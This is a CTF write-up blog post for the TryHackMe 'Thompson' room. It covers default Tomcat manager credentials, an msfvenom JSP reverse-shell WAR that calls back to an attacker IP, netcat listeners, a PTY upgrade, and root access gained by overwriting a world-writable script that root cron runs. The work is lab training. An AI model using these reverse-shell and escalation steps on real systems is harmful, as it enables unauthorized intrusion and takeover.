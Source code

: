 ```yaml
---
layout: post
title: PenLog - "Thompson" by TryHackMe
categories: [TryHackMe, Penlog, Write Up, CTF, OSCP]
---
```


## Details

**Platform:** [TryHackMe](https://www.tryhackme.com/)\
**Difficulty:** Easy\
**Link:** [Thompson](https://tryhackme.com/room/bsidesgtthompson)

## Enumeration

Run both normal service scan and full port scan on the target using `nmap`:

```bash
$ nmap -vv -Pn -sT -sV -sC -r -n 10.10.58.198
```

This results in:

![nmap1](/images/posts/penlog_thompson_by_tryhackme/nmap1.png)

Open browser and navigate to target's open http port 8080; confirm Tomcat version is v8.5.5 as per the `nmap` scan result:

![tomcat](/images/posts/penlog_thompson_by_tryhackme/tomcat.png)

Navigate to "/manager" by clicking the "Manager App" button; click "Cancel" when prompted for a username and password.

Note the rendered error response mentions example credentials _tomcat:s3cret_:

![tomcat-error](/images/posts/penlog_thompson_by_tryhackme/tomcat_error.png)

Reattempt to authenticate to "/manager" with the example credentials - **success**.

## User Shell

Generate a JSP payload in _.war_ format using `msfvenom`:

```bash
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.4.9.232 LPORT=4444 -f war > shell.war
```
_(**NOTE:** You can list available payloads with `msfvenom --list payloads`; I use `grep` to filter the payloads on a needs basis.)_

Deploy the generated "shell.war":

![tomcat-deploy](/images/posts/penlog_thompson_by_tryhackme/tomcat_deploy.png)

![tomcat-deployed](/images/posts/penlog_thompson_by_tryhackme/tomcat_deployed.png)

Start an `nc` lister on the port specified as _LPORT_ to the `msfvenom` command:

```bash
$ nc -vnlp 4444
```

Click the "/shell" link in the deployed applications list (as shown above)--the Tomcat server will execute the deployed JSP reverse shell code generated using `msfvenom`--to establish a low-privilege _user_ shell.

Upgrade the shell with a PTY:

```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
$ (Ctrl-Z)
$ stty raw -echo
$ fg
$ export TERM=xterm && reset
```

Get the user "flag.txt":

![nmap1](/images/posts/penlog_thompson_by_tryhackme/user_flag.png)

Notice the "id.sh" file in the user home directory "/home/jack"; this script is owned by _jack_ but is world writable - that is, the _tomcat_ user can change the script:

![id-script-perms](/images/posts/penlog_thompson_by_tryhackme/id_script_perms.png)

This script, when executed, writes out the _uid_ of the executing user to the file "test.txt" in the same home directory:

![id-script-out](/images/posts/penlog_thompson_by_tryhackme/id_script_out.png)

Notice the current "test.txt" reads "root" indicating the last user to execute the "id.sh" script was _root_.

The system "/etc/crontab" shows evidence of the "id.sh" script running every minute as user _root_:

![crontab](/images/posts/penlog_thompson_by_tryhackme/crontab.png)

## Root Shell

Replace the "id.sh" script with a bash reverse shell connection to attacking machine:

![id-script-new](/images/posts/penlog_thompson_by_tryhackme/id_script_new.png)

Start `nc` listener on the attacking machine, specifying expected reverse shell port (4446 in this case):

```bash
$ nc -vnlp 4446
```

Wait for `cron` to execute "id.sh" as root, establishing a reverse shell as _root_; get the root "flag.txt":

![root-shell](/images/posts/penlog_thompson_by_tryhackme/root_shell.png)